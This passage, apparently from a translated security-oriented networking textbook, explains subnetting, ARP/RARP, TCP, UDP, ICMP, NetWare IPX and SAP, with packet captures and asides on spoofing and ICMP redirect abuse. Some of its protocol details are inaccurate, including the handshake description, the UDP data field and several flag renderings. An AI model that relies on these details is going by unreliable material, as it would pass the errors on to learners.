- **每个子网的主机数量：** 现在我们将确定剩余用于可用主机地址的位数。在这种场景中，我们将在掩码中使用 4 位进行子网划分。还剩多少位？
- 请记住，在构成 IP 地址的给定 32 位中，如前所述，A、B 和 C 类地址块中网络与主机之间的默认可用性如下：
    - A 类：8 位
    - B 类：16 位
    - C 类：24 位
- 我们的场景涉及 InterNIC 分配的 C 类地址块。如果我们从构成 IP 地址的标准 32 位中减去 C 类地址块的网络与主机默认可用位（如上所示的 24 位），我们将剩下 8 位用于 C 类地址块的网络与主机。
- 接下来，我们从用于网络与主机的剩余总位数 8 位中减去用于子网划分的 4 位，这就剩下 4 位用于实际的主机寻址：
    - 4 位：1 1 1 1 0 0 0 0
    - 数值：128 64 32 16 (8 4 2 1)
    - 剩下 4 位

让我们解决一个方程来确定 4 位是否足以覆盖每个子网或网络至少 10 个可用节点地址的要求：

$$2^4 - 2 = 14$$

将剩下的 4 位放回到我们的方程中，我们就得到了每个子网或网络可用的节点地址：$2^4 - 2 = 14$ 个主机地址对应 14 个子网或网络（请记住，我们还多出四个额外的子网）。

通过这些步骤，我们可以使用 4 位划分我们的 C 类块，从而得到 14 个子网，每个子网有 14 个主机地址。

### 步骤 2

既然我们已经确定了子网掩码，在此情况下为 255.255.255.240（4 位），我们需要计算每个网络中实际的编号或 IP 地址范围。完成此任务的一种简单方法是将主机位设为 0。请记住，我们有 4 位留给主机：

```text
4 Bits:	1	1	1	1	0	0	0	0
Value:	128	64	32	16	(8	4	2	1)
4 host bits left
```

将 4 个主机位设为 0 后，我们在每个变体中将前 4 位设为*1*，然后计算数值：

```text
4 Bits:	0	0	0	1	0	0	0	0
Value:	128	64	32	16	(8	4	2	1)
16

4 Bits:	0	0	1	0	0	0	0	0
Value:	128	64	32	16	(8	4	2	1)
32
=32
```

依此类推，揭示我们的 14 个子网或网络。回想第一个示例中的捷径；我们可以取我们的第一个值（$=$16）并连续相加，以等效于 14 个网络：

| | | | |
| :--- | :--- | :--- | :--- |
| 第一个子网 = .16 | 第二个子网 = .32 (16+16) | 第三个子网 = .48 (32+16) | |
| 207.247.60.16 | 207.247.60.32 | 207.247.60.48 | 207.247.60.64 |
| 207.247.60.80 | 207.247.60.96 | 207.247.60.112 | 207.247.60.128 |
| 207.247.60.144 | 207.247.60.160 | 207.247.60.176 | 207.247.60.192 |
| 207.247.60.208 | 207.247.60.224 | | |

### 步骤 3

既然我们已经解决了网络号，让我们解析每个网络的广播地址。这一步很简单。请记住，广播地址是网络中下一个网络地址之前的最后一个地址；因此：

| 第一个网络 | 第二个网络 | 第三个网络 |
| :--- | :--- | :--- |
| 207.247.60.16 (**31**) | 207.247.60.32 (**47**) | 207.247.60.48 (**63**) |
| 207.247.60.64 (**79**) | | |

那么每个网络可用的 IP 地址是什么？答案就在步骤 3 的中间。请记住，每个网络可用的 IP 地址位于网络地址和广播地址之间：

## ARP/RARP 工程：物理硬件地址映射简介

既然我们已经挖掘了 IP 地址及其 32 位地址、数据包/分组流和子网划分，我们需要了解主机站点或基础设施设备（如路由器）如何将 IP 地址匹配到物理硬件地址。本节解释了使通信成为可能的映射过程。站点、服务器或基础设施设备中的每个接口，或网络接口卡（NIC），都有一个由制造商编程并在内部绑定的独特物理地址。

基础设施软件的目标之一是使用分配的 IP 或互联网地址进行通信，同时隐藏硬件的独特物理地址。在所有这些之下，是将分配的地址映射到实际物理硬件地址的过程。为了映射这些地址，程序员使用地址解析协议（ARP）。

基本上，ARP 是广播到物理网络上所有主机的数据包。此数据包包含发送方想要与之通信的节点或站点的 IP 地址。网络上的其他主机在存储发送方的 IP/硬件地址映射副本后忽略此数据包。然而，目标主机将回复其硬件地址，该地址将被返回给发送方，并存储在其 ARP 响应缓存中。通过这种方式，这两个节点之间的通信就可以进行（见图 1.12）。

> 黑客笔记  硬件地址通常由软件隐藏，因此可以将其定义为接口的最终签名或名片。



20


## 图 1.12 ARP 解析。

### ARP 封装与报头格式

必须了解，ARP 并非互联网协议；此外，ARP 不会离开本地逻辑网络，因此不需要路由。相反，ARP 必须通过广播方式进行通信，它与网络上的每个主机接口通信，封装在以太网数据包（位于数据部分）中，从一台机器传送到另一台机器。

> **黑客笔记** ARP 通过广播到达网络上的每个接口。这些主机可以存储这些信息，以便日后用于潜在的伪装。有关欺骗的更多信息，请参阅第 8 章。

图 1.13 展示了包含逆向地址解析协议（RARP）（将在下一节讨论）的 ARP 数据包封装。数据包组件定义如下列表：

- 硬件类型
- 协议类型
- 硬件长度
- 协议长度
- 操作字段
- ARP 发送方硬件地址（第 0-3 字节）
- ARP 发送方硬件地址（第 4-5 字节）
- ARP 发送方 IP 地址（第 0-1 字节）
- ARP 发送方 IP 地址（第 2-3 字节）
- RARP 目标硬件地址（第 0-1 字节）
- RARP 目标硬件地址（第 2-5 字节）
- RARP 目标 IP 地址（第 0-3 字节）

## 图 1.13 一个 ARP/RARP 数据包。

- **硬件类型。** 指定目标主机的硬件接口类型（1 代表以太网）。
- **协议类型。** 发送方提供的协议类型（0800 代表 IP 地址）。
- **硬件长度。** 硬件地址的长度。
- **协议长度。** 协议地址的长度。
- **操作字段。** 指定是 ARP 请求/响应还是 RARP 请求/响应。
- **ARP 发送方硬件地址。** 发送方的硬件地址。
- **ARP 发送方 IP 地址。** 发送方的 IP 地址。
- **RARP 目标硬件地址。** 目标的硬件地址。
- **RARP 目标 IP 地址。** 目标的 IP 地址。

请记住，ARP 数据包没有定义明确的报头格式。图 1.13 中显示的长度字段使 ARP 能够基于其他技术实现。

### RARP 事务与封装

逆向地址解析协议（RARP）在某种程度上与 ARP 相反。基本上，RARP 允许工作站广播其硬件地址，期望服务器守护程序响应并提供一个可用的 IP 地址供该工作站使用。无盘机器使用 RARP 从 RARP 服务器获取 IP 地址。

必须了解，与 ARP 一样，RARP 消息封装在以太网帧中（见图 1.14，源自图 1.13）。同样，RARP 从一台机器广播到另一台机器，与网络上的每个主机接口进行通信。

**图 1.14** 图 1.13 的摘录。

### RARP 服务

RARP 守护程序（RARPd）是一个响应 RARP 请求的服务。无盘系统通常在启动时使用 RARP 来发现其 32 位 IP 地址，前提是其拥有 48 位硬件以太网地址。启动的机器将其以太网地址封装在帧中作为 RARP 请求消息发送。运行 RARPd 的服务器必须有该机器名称到 IP 地址的条目，或者必须能够从域名服务器（DNS）获取名称到以太网地址的信息。通过这些来源，RARPd 服务器将此以太网地址映射为相应的 IP 地址。

RARP 结合 ARP 欺骗，赋予黑客被动请求 IP 地址并被动参与网络通信的能力，通常不会被其他节点察觉。

### 传输控制协议

IP 有很多弱点，其中之一是不可靠的数据包投递——由于传输错误、不良路由和/或吞吐量下降，数据包可能会丢失。传输控制协议（TCP）通过提供可靠的面向流的连接来协调这些问题。事实上，TCP/IP 主要基于 TCP 功能，而 TCP 基于 IP，从而构成了 TCP/IP 协议套件。这些特性描述了一个面向连接的通信建立过程。

有许多组件促成了 TCP 的可靠服务交付。以下是其中的一些要点：

- **流（Streams）。** 数据被系统化并作为位流传输，组织为 8 位字节（octets）或字节（bytes）。随着这些位的接收，它们以相同的方式传递。
- **缓冲流量控制。** 当数据以流形式传递时，协议软件可能将流分割以填充特定大小的缓冲区。TCP 管理此过程，并确保避免缓冲区溢出。在此过程中，发送速度快的站点可能会定期停止，以跟上接收速度慢的站点。
- **虚电路。** 当一个站点请求与另一个站点通信时，两个站点都会通知其应用程序，并*同意*进行通信。如果这两个站点之间的链接或通信失败，两个站点都会意识到故障并通知各自的应用软件。在这种情况下，将尝试协调重试。
- **全双工连接。** 流传输同时发生在两个方向上，以减少整体网络流量。



**图 1.15** TCP 窗口示例。

### 排序与窗口

TCP 使用 32 位序列号来组织和计算数据流中的字节。每个 TCP 数据包都包含起始序列号（第一个字节）和确认号（最后一个字节）。*滑动窗口* 的概念被实施，以使流传输更高效。滑动窗口更有效地利用带宽，因为它允许在需要确认之前传输多个数据包。

图 1.15 是 TCP 滑动窗口的现实示例。在此示例中，发送方有按顺序（1 到 8）要发送的字节，接收站点的窗口大小为 4。发送站点将前 4 个字节放入窗口并发送，然后等待确认（ACK=5）。此确认指定前 4 个字节已收到。然后，假设其窗口大小仍为 4，并且它也在等待下一个字节（第 5 字节），发送站点将滑动窗口向右移动 4 个字节，并发送第 5 到 8 字节。收到这些字节后，接收站点发送确认（ACK=9），表示它正在等待第 9 字节。该过程继续。

在任何时候，接收方都可以指示窗口大小为 0，在这种情况下，发送方将不再发送任何字节，直到窗口大小大于 0。这种情况发生的典型原因是缓冲区溢出。

### TCP 数据包格式与报头快照

鉴于区分捕获的数据包——无论是 TCP、UDP、ARP 等——非常重要，请查看图 1.16 中的 TCP 数据包格式，其组件定义如下列表：

| 组件 |
| :--- |
| 源端口 |
| 目的端口 |
| 序列号 |
| 确认号 |
| 数据偏移 |
| 保留 |
| 标志 |
| 窗口大小 |
| 校验和 |
| 紧急指针 |
| 选项 |
| 数据 |

**图 1.16** 一个 TCP 数据包。

- **源端口。** 指定源进程发送/接收 TCP 服务的端口。
- **目的端口。** 指定目的进程发送/接收 TCP 服务的端口。
- **序列号。** 指定数据的第一个字节或为未来进程保留的序列号。
- **确认号。** 发送方应接收的下一个数据字节的序列号。
- **数据偏移。** 报头中 32 位字的大小。
- **保留。** 为将来使用保留。
- **标志。** 用于建立和终止连接的控制信息，如 SYN、ACK 和 FIN 位。
- **窗口大小。** 发送方的接收窗口或可用缓冲区空间。


**校验和。** 指定在传输过程中发生的头部损坏。

**紧急指针。** 数据包中第一个可选的紧急字节，指示紧急数据的结束位置。

**选项。** TCP 选项，例如最大 TCP 分段大小。

**数据。** 上层信息。

现在查看图 1.17a 中显示的 TCP 头部快照，并将其与图 1.17b 中显示的字段进行比较。

## 端口、端点、连接建立

TCP 允许在单台机器上不同的应用程序之间进行同时通信。TCP 使用端口号来区分接收站点的每个目标。如前所述，一对*端点*标识了两个站点之间的连接。通俗地说，这些端点被定义为两个站点的应用程序在通信时形成的连接；在 TCP 中，它们被定义为一对整数，格式如下：（主机，端口）。*主机*是站点的 IP 地址，*端口*是该站点上的 TCP 端口号。一个站点端点的示例是：

206.0.125.81:1026

（主机）（端口）

两个站点在通信期间端点的示例是：

**站点 1** **站点 2**
206.0.125.81:1022 207.63.129.2:26
（主机）（端口） （主机）（端口）

这项技术在 TCP 中非常重要，因为它通过为每个站点连接分配不同的端口，从而允许同时通信。

当在 TCP 会话中两个节点之间建立连接时，会使用*三次握手*。此过程以一个节点的 TCP 请求开始，使用 SYN/ACK 位，然后第二个节点使用 SYN/ACK 位进行 TCP 响应。在此阶段，如前所述，两个节点之间的通信将进行。当没有更多数据要发送时，TCP 节点可以发送 FIN 位，表示关闭控制信号。在此交叉点，两个节点将同时关闭。一些常见且广为人知的 TCP 端口及其相关的连接服务列在附录 B 第 793 页的表 B.1 中。

------- TCP 头部 -------
TCP:
TCP: 源端口
= 80 (WWW-HTTP)
TCP: 目的端口
= 1033
TCP: 序列号
= 135179
TCP: 确认号
= 3440695
TCP: 数据偏移
= 20 字节
TCP: 标志
= 10
TCP: ...0. .....
= （无紧急指针）
TCP: .....1 .....
= 确认
TCP: ...0...
= （无推送）
TCP: ....0..
= （无重置）
TCP: .....0..
= （无 SYN）
TCP: .......0
= （无 FIN）
TCP: 窗口
= 8389
TCP: 校验和
= 9A48 (正确)
TCP: 无 TCP 选项
TCP: [1460 字节的数据]

**图 1.17a** 提取自 HTTP 互联网 Web 服务器传输。

------- TCP 头部 -------
TCP:
TCP: 源端口
= 1027
TCP: 目的端口
= 4107
TCP: 序列号
= 2126033619
TCP: 确认号
= 2666894
TCP: 数据偏移
= 20 字节
TCP: 标志
= 18
TCP: ...0. .....
= （无紧急指针）
TCP: .....1 .....
= 确认
TCP: .....1 ...
= 推送
TCP: ...0...
= （无重置）
TCP: ....0..
= （无 SYN）
TCP: .......0
= （无 FIN）
TCP: 窗口
= 16060
TCP: 校验和
= EF41 (正确)
TCP: 无 TCP 选项
TCP: [224 字节的数据]

**图 1.17b** 提取自滑动窗口序列传输。

## 用户数据报协议

用户数据报协议（UDP）以无连接方式运行；也就是说，它提供与 IP 相同的不可靠的数据报投递服务。与 TCP 不同，UDP 不发送 SYN/ACK 位来确保传输的投递和可靠性。此外，UDP 不包含流量控制或错误恢复功能。因此，UDP 消息可能会丢失、重复或以错误的顺序到达。而且，由于 UDP 包含较小的头部，它比 TCP 消耗更少的网络吞吐量，因此可能比接收站点处理的速度更快到达。

UDP 通常用于更高层协议提供必要的错误恢复和流量控制的情况。使用 UDP 的流行服务器守护程序包括网络文件系统（NFS）、简单网络管理协议（SNMP）、简单文件传输协议（TFTP）和域名系统（DNS）等等。

UDP 不包含流量控制或错误恢复，并且容易被重复。

## UDP 格式化、封装和头部快照

UDP 消息被称为用户数据报。这些数据报在跨越互联网传输时封装在 IP 中，包括 UDP 头部和数据。基本上，UDP 在用户发送的数据上添加一个头部，并将其传递给 IP。然后 IP 层为其从 UDP 接收到的内容添加一个头部。最后，网络接口层在从一台机器发送到另一台机器之前，将数据报插入帧中。

正如刚才提到的，UDP 消息包含较小的头部，并且比 TCP 消耗更少的开销。UDP 数据报格式如图 1.18 所示，其组件在以下列表中定义。

- **源/目的端口。** 用于数据报处理的 16 位 UDP 端口号。
- **消息长度。** 指定 UDP 数据报中的八位组数量。
- **校验和。** 一个用于验证数据报投递的可选字段。
- **数据。** 传递给 TCP 协议的数据，包括上层头部。

UDP 头部的快照在图 1.19 中给出。

| 源端口 | 目的端口 |
| :--- | :--- |
| 消息长度 | 校验和 |
| 数据 | |

**图 1.18** UDP 数据报的图示。

## 多路复用、解复用和端口连接

UDP 在协议和应用软件之间提供多路复用（将多个信号并发地传输到输入流中，通过单一物理信道的方法）和解复用（将多路复用到公共流中的流实际分离回多个输出流）功能。

就 UDP 而言，多路复用和解复用是通过端口实现的。每个站点应用程序在发送 UDP 数据报之前必须协商一个端口号。当 UDP 在数据报的接收端时，它会检查头部（目的端口字段）以确定是否匹配站点当前使用的某个端口。如果端口正被监听应用程序使用，则传输继续进行；如果端口未在使用，则生成一个 ICMP 错误消息，数据报被丢弃。附录 B 第 795 页的表 B.2 中列出了一系列常见的 UDP 端口及其相关的连接服务。



**图 1.19** 提取自域名解析的 IP 部分之后的 DNS 请求传输（在第 5 章中讨论）。

## 互联网控制消息协议

互联网控制消息协议（ICMP）传送消息包，向发送站点或源报告错误和其他相关信息。主机和基础设施设备使用此机制来交换与控制信息和错误信息，这些涉及 IP 数据包处理。

### ICMP 格式、封装和投递

ICMP 消息封装是一个双重过程。消息在穿越互联网时被封装在 IP 数据报中，而这些 IP 数据报又被封装在帧中。基本上，ICMP 使用与数据报相同的不可靠通信方式。这意味着 ICMP 错误消息可能会丢失或重复。

ICMP 格式包括一个*消息类型*字段，指示消息的类型；一个*代码*字段，包含关于该类型的详细信息；以及一个*校验和*字段，提供与 IP 校验和相同的功能（见图 1.20）。当 ICMP 消息报告错误时，它包含导致指定问题的数据报的头部和数据。这有助于接收站点理解哪个应用程序和协议发送了该数据报。（下一节有更多关于 ICMP 消息类型的信息。）

> **黑客笔记：** 与 UDP 一样，ICMP 不包含流量控制或错误恢复，因此容易被重复。

| 消息类型 | 代码 | 校验和 |
| :--- | :--- | :--- |
| | | |

**图 1.20** ICMP 数据报的图示。

| 消息类型 | 描述 |
| :---: | :---: |
| 0 | 回显回复 |
| 3 | 目的不可达 |
| 4 | 源站抑制 |
| 5 | 路由重定向 |
| 8 | 回显请求 |
| 11 | 数据报超时 |
| 12 | 数据报参数问题 |
| 13 | 时间戳请求 |
| 14 | 时间戳回复 |
| 15 | 信息请求 |
| 16 | 信息回复 |
| 17 | 地址掩码请求 |
| 18 | 地址掩码回复 |

**图 1.21** ICMP 消息表。

### ICMP 消息，子网掩码获取

有许多种有用的 ICMP 消息类型；图 1.21 包含其中几种的列表，并在以下列表中进行了描述。

- **回显回复（类型 0）/回显请求（类型 8）。** 测试两个节点之间可能通信的基本机制。如果可用，接收站点会被要求回复 ping。一个 ping 的示例如下：

第 1 步：开始回显请求

```
Ping 206.0.125.81 (在命令提示符下)
```

第 2 步：开始回显回复

```
来自 206.0.125.81 的回复: 字节=32 时间<10ms TTL=128 (来自接收站点 206.0.125.81)
```

```
来自 206.0.125.81 的回复: 字节=32 时间<10ms TTL=128
```

```
来自 206.0.125.81 的回复: 字节=32 时间<10ms TTL=128
```

```
来自 206.0.125.81 的回复: 字节=32 时间<10ms TTL=128
```

- **目的不可达（类型 3）。** 此消息类型有几种发行情况，包括当路由器或网关不知道如何到达目的站、当协议或应用程序未活动、当数据报指定了不稳定的路由、或者当路由器必须对数据报的大小进行分片但由于设置了不分片标志而无法执行时。一个类型 3 消息的示例如下：

第 1 步：开始回显请求

```
Ping 206.0.125.81 (在命令提示符下)
```

第 2 步：开始回显回复

```
正在 Ping 206.0.125.81，带有 32 字节的数据:
```

```
目的主机不可达。
```


目标主机不可达。

目标主机不可达。

目标主机不可达。

### 源站抑制（类型 4）
一种用于数据报传输的基本流量控制形式。当数据报到达接收站点的速度过快而无法及时处理时，这些数据报将被丢弃。在此过程中，对于每个被丢弃的数据报，都会向发送站点发送一条 ICMP 类型 4 消息。源站抑制消息实际上变成了请求，要求减缓数据报的发送速率。从另一方面来看，源站抑制消息没有反向效果，发送站点不会增加传输速率。

### 路由重定向（类型 5）
路由信息会定期交换，以适应网络变化并保持路由表的最新状态。当路由器识别出某台主机正在使用非最优路由时，路由器在将数据报转发到目标网络的同时，会发送一条 ICMP 类型 5 消息。因此，路由器只能向其直接连接的主机发送类型 5 消息。

### 数据报超时（类型 11）
如果网关或路由器因 TTL（生存时间）字段被设置为 0 而被迫丢弃数据报，它将发出类型 11 消息。基本上，如果路由器在拦截数据报时检测到 TTL=0，它将被迫丢弃该数据报并发送一条 ICMP 类型 11 消息。

### 数据报参数问题（类型 12）
指定阻碍进一步处理的数据报头部问题。数据报将被丢弃，并传输一条类型 12 消息。

### 时间戳请求（类型 13）/ 时间戳应答（类型 14）
这些提供了一种用于网络时延计算的方法。发送站点注入一个发送时间戳（即消息发送的时间），接收站点将附加一个接收时间戳，以计算估计的时延并辅助其内部时钟同步。

```
ICMP:      ----- ICMP header -----
ICMP:      Type = 0 (Echo reply)
ICMP:      Code = 0
ICMP:      Checksum = 505C (correct)
ICMP:      Identifier = 768
ICMP:      Sequence number = 512
ICMP:      [32 bytes of data]
ICMP:
ICMP:      [Normal end of "ICMP header".]

ICMP:      ----- ICMP header -----
ICMP:      Type = 3 (Destination unreachable)
ICMP:      Code = 1 (Host unreachable)
ICMP:      Checksum = 46BA (correct)
ICMP:
ICMP:      [Normal end of "ICMP header".]
ICMP:
ICMP:      IP header of originating message (description follows)
ICMP:      ----- IP Header -----
ICMP:      Version = 4, header length = 20 bytes
ICMP:      Type of service = 00
ICMP:              000. ... . = routine
ICMP:              ...0 ... . = normal delay
ICMP:              .... 0... . = normal throughput
ICMP:              ..... .0.. . = normal reliability
ICMP:      Total length      = 56 bytes
ICMP:      Identification    = 58963
ICMP:      Flags
ICMP:              .0.. ... . = may fragment
ICMP:              ..0. ... . = last fragment
ICMP:      Fragment offset = 0 bytes
ICMP:      Time to live    = 125 seconds/hops
ICMP:      Protocol        = 17 (UDP)
ICMP:      Header checksum = CEBF (correct)
ICMP:      Source address  = [205.243.70.66]
ICMP:      Destination address = [198.49.174.58]
```

图 1.22 ICMP 头部嗅探器捕获图。

### 信息请求（类型 15）/ 信息应答（类型 16）
作为替代 RARP（此前已描述）的一种方式，站点使用类型 15 和类型 16 来获取其所连接网络的互联网地址。发送站点将发出消息，包含互联网地址的网络部分，并等待带有主机部分（即其 IP 地址）填充完成的响应。

### 地址掩码请求（类型 17）/ 地址掩码应答（类型 18）
与信息请求/应答类似，站点可以发送类型 17 和类型 18 消息来获取其所连接网络的子网掩码。站点可以向已知节点（如网关或路由器）提交此请求，也可以将请求广播到网络上。

**黑客注记**
如果一台机器向网络中的另一台机器发送 ICMP 重定向消息，可能会导致另一台机器上的路由表无效。如果一台机器充当路由器并收集 IP 数据报，它可能获得控制权并按照编程将这些数据报发送到任何地方。这些与 ICMP 相关的安全问题将在后续章节中详细讨论。

## ICMP 头部快照

第 35 页的图 1.22 包含了 ICMP 头部的快照。第一个是在 ICMP Ping 测试传输的 IP 部分提取后获得的；第二个是在不可达 Ping 测试期间提取的。

## 向前迈进

在本章中，我们回顾了 TCP/IP 套件的主要功能。我们还介绍了各种集成协议，以及它们如何与 IP 协作以提供面向连接和面向无连接的网络服务。此时，我们已准备好向前迈进，讨论与类似通用通信协议的互操作性，包括 NetWare 和 NetBIOS 技术。

# 第 2 章

# NetWare 和 NetBIOS 技术

本章分别讨论了与更广泛的通信协议主题相关的两个重要话题：NetWare 和 NetBIOS 技术。NetWare 是由 Novell 在 1980 年代初开发的一个网络操作系统。NetBIOS 是一个应用程序编程接口（API，一种使一个站点上的应用程序能够与另一个站点上的应用程序通信的技术）。IBM 最初将其引入局域网（LAN）环境。NetBIOS 提供面向无连接和面向连接的数据传输服务。在 1980 年代中后期和 1990 年代初，NetWare 和 NetBIOS 都是最流行的网络操作系统之一。

## NetWare：简介

NetWare 提供基于*客户端/服务器*架构的各种服务器守护进程服务和支持。客户端是请求服务（如文件访问）的站点，从服务器获取服务（见图 2.1）。网际分组交换（IPX）是原始 NetWare 用于通过互联网路由分组的协议。

## *网际分组交换*

IPX 是一种面向无连接的数据报协议，因此，它类似于互联网协议（在第 1 章中讨论）提供的不可靠数据报传输。



**图 2.1** 客户端/服务器示意图。

此外，与 IP 寻址方案类似，Novell IPX 网络地址必须是唯一的；它们以十六进制格式表示，由两部分组成：网络号和节点号。IPX 网络号是一个分配给每个网络的 32 位长数字。节点号是系统中某个网络接口卡（NIC）的 48 位长硬件或介质访问控制（MAC）地址。如第 1 章所定义，NIC 制造商分配 48 位长的硬件或 MAC 地址。图 2.2 显示了一个 IPX 地址的示例。

由于 IP 网络地址的主机部分与 MAC 地址没有等价关系，IP 节点必须使用地址解析协议（ARP）来确定目标 MAC 地址（见第 1 章）。

## IPX 封装、格式、头部快照

为了将上层协议信息和数据封装成帧，NetWare IPX 支持几种封装方案。最受欢迎的封装类型包括 Novell 专有、802.3、以太网版本 2 和以太网 SNAP，定义如下列表：



图 2.2 IPX 地址。

- **Novell 专有。** Novell 最初的封装类型，也称为 Novell Ethernet 802.3 和 802.3 Raw。
- **802.3。** 标准 IEEE 802.3 格式，也称为 Novell 802.2。
- **以太网 II。** 包含标准以太网版本 2 头部。
- **以太网 SNAP。** 802.3 的扩展。

IPX 网络号在 IPX 互联网段间分组交换的基础中起着主要作用。每个网段都被分配一个唯一的网络地址，以便将数据包路由到节点目标。为了识别自身并与网络通信，协议必须请求一个*套接字号*。套接字号确定站点或节点内部进程的身份。IPX 格式如图 2.3 所示；其字段定义如下：

- **校验和。** 该字段的默认值是无校验和；然而，可以配置为对数据包中的 IPX 部分执行校验。
- **包长度。** IPX 数据包的总长度。
- **传输控制。** 当数据包传输并通过路由器时，此字段增加 1。该字段的限制为 15（15 跳或路由器）。将该字段数字增加到 16 的路由器将丢弃该数据包。
- **包类型。** 服务包括：
    - （类型 0）未知包类型
    - （类型 1）路由信息包
    - （类型 4）IPX 包或由服务通告协议（SAP；下一节将解释）使用
    - （类型 5）SPX 包




### **图 2.3** IPX 数据包。

*   (类型 17) NetWare 核心协议数据包
*   (类型 20) IPX NetBIOS 广播

- **目的网络**。目的节点所属的目的网络。如果目的是本地的，此字段设为 0。
- **目的节点**。目的节点的地址。
- **目的套接字**。目的节点的过程套接字地址。
- **源网络**。源节点所属的源网络。如果源未知，此字段设为 0。
- **源节点**。源节点的地址。
- **源套接字**。传输数据包的源节点过程套接字地址。
- **数据**。IPX 数据，通常包含高层协议的头部。

记住图 2.3 中的字段，现在请查看图 2.4，以比较实际传输期间捕获的 IPX 头部字段。

```text
------ IPX Header ------
IPX:
IPX: Checksum = 0xFFFF
IPX: Length = 32
IPX: Transport control = 01
IPX: 0000 .... = Reserved
IPX: .... 0001 = Hop count
IPX: Packet type = 0 (Novell)
IPX:
IPX: Dest network.node = BBE1.006008AA7DE0, socket = 16410 (Unknown)
IPX: Source network.node = FF.1, socket = 16385 (IPX Message)

------ IPX Header ------
IPX:
IPX: Checksum = 0xFFFF
IPX: Length = 32
IPX: Transport control = 00
IPX: 0000 .... = Reserved
IPX: .... 0000 = Hop count
IPX: Packet type = 0 (Novell)
IPX:
IPX: Dest network.node = FF.1, socket = 16385 (IPX Message)
IPX: Source network.node = BBE1.006008AA7DE0, socket = 16410 (Unknown)
```

### **图 2.4** IPX 头部嗅探器捕获数据。



### **图 2.5** SAP 流量网络图。

## 服务通告协议

服务通告协议 (SAP) 是一种方法，网络资源（如文件服务器）通过它来通告其地址及提供的服务。默认情况下，这些通告每 60 秒发送一次。SAP 标识符（十六进制数）指示了提供的服务；例如，类型 0x0007 指定为打印服务器。让我们看一下图 2.5 中 SAP 的一个现实场景。

在此场景中，打印和文件服务器将每 60 秒通告一次 SAP 消息。路由器将监听 SAP，然后构建一个已知通告服务及其网络地址的表格。随着路由器表的创建，它本身也将每 60 秒发送（传播）到网络上。如果客户端（站点 A）发送查询并请求来自打印服务器的特定打印机进程，路由器将响应被请求服务的网络地址。此时，客户端（站点 A）将能够直接联系该服务。

**黑客笔记** 在未经过滤的 SAP 消息在网络中传播时进行拦截，会泄露宝贵的网络服务和寻址信息。

| 操作 | 源类型 | 服务 |
| :--- | :--- | :--- |
| 网络地址 | 节点地址 | 套接字地址 | 跳数 |

*注：原文呈现的表格结构似乎拆分的列。基于标准 SAP 数据包结构和文本描述“图 2.6 一个 SAP 数据包”，该表格可能表示字段。*

### **图 2.6** 一个 SAP 数据包。

## SAP 格式、头部快照、过滤器

SAP 数据包最多可以包含七个服务器的服务消息。如果超过七个，将发送多个数据包。让我们检查图 2.6 中的 SAP 格式和字段：

- **操作**。操作类型：SAP 请求或响应。
- **源类型**。提供的服务类型：
    - 类型 0x0004：文件服务器
    - 类型 0x0005：作业服务器
    - 类型 0x0007：打印服务器
    - 类型 0x0009：归档服务器
    - 类型 0x000A：作业队列
    - 类型 0x0021：SNA 网关
    - 类型 0x002D：时间同步
    - 类型 0x002E：动态 SAP
    - 类型 0x0047：通告打印服务器
    - 类型 0x004B：Btrieve VAP
    - 类型 0X004C：SQL VAP
    - 类型 0x0077：未知
    - 类型 0x007A：NetWare VMS
    - 类型 0x0098：NetWare 访问服务器
    - 类型 0x009A：命名管道服务器
    - 类型 0x009E：NetWare-UNIX
    - 类型 0x0107：NetWare 386
    - 类型 0x0111：测试服务器
    - 类型 0x0166：NetWare 管理
    - 类型 0x026A：NetWare 管理
- **服务**。包含服务器的唯一名称。
- **网络地址**。服务器的网络地址。
- **节点地址**。节点的网络地址。
- **套接字地址**。服务器请求和响应的套接字编号。
- **跳数**。客户端和服务器之间路由器或网关的数量。

现在您对 SAP 操作及其相关头部格式有了了解，让我们将图 2.6 中的字段与图 2.7 中所示的实际捕获的 SAP 头部（在传输期间）进行比较。

为了节省网络吞吐量并避免 SAP 泛洪，可以在路由器或网关的接口上过滤 SAP。在中大型网络中，拥有数百甚至数千个通告服务，有时必须对特定路由器进行 SAP 过滤。建议对不需要特定网络的服务实施 SAP 过滤器；例如，大多数情况下，远程站点不需要对另一个远程站点的打印机服务进行 SAP 通告。


```text
------ NetWare General Service Response ------
SAP: Service type = 03ED (Intel NetFortExpress XL)
SAP: Server name = "XEROX_01_71"
SAP: Network = 00B71601, Node = 00AA005E136A, Socket = E480
SAP: Intermediate networks = 5
SAP:
SAP: Service type = 030C (HP LaserJet)
SAP: Server name = "0010831C20C583DANP11C20C5"
SAP: Network = 00B59321, Node = 0010831C20C5, Socket = 400C
SAP: Intermediate networks = 6
SAP:
SAP: Service type = 0077 (Unknown service)
SAP: Server name = "TS@BR_SERVER_59"
SAP: Network = 00C59321, Node = 000000000001, Socket = 0000
SAP: Intermediate networks = 7
SAP:
SAP: Service type = 044C (ARCS server 5.0)
SAP: Server name = "AR80214306BR_SERVER_59"
SAP: Network = 00C59321, Node = 000000000001, Socket = 8600
SAP: Intermediate networks = 7
SAP:
SAP: Service type = 004B (Btrieve VAP 5.x)
SAP: Server name = "BSER4.00-6.10_00C59321000000000000100000"
